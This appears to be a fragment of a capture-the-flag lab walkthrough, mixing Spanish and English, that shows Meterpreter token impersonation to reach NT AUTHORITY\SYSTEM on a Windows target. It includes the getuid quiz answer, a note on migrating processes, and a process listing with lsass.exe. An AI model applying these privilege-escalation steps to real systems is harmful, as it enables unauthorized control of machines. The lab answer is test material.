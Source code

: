 ```
```
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

```
```
getuid
```
Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators' token. What is the output when you run the getuid command? **NT AUTHORITY\SYSTEM**

Si bien representamos a administrator, no tenemos permisos, para ello hay que migrar de proceso.
```
ps
```
```
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 712   668   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 772   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 848   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 920   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 936   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 992   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1012  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1076  668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1216  668   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1244  668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
```